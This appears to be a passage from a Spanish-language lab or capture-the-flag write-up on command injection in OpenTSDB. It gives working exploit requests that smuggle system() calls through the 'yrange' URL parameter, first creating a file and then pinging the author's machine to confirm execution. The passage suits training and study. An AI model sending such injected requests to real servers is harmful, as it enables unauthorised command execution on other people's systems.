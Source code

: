 ![](assets/2022-06-12-11-45-59.png)

Disponemos de un PoC

```bash
Bypass Payload:

[33:system('touch/tmp/poc.txt')]

PoC:

http://opentsdbhost.local/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

Vamos a copiarnos apartir del q y le vamos a cambiar el poc.txt , vamos a cambiarlo por un ping a nuestro equipo 10.10.14.48

```bash
#importante, hay que meterle los datos urlencode por lo que los espacios son un %20 o un +
q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('ping+-c+1+10.10.14.48')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

Nos vamos a poner en escucha con ctpdump

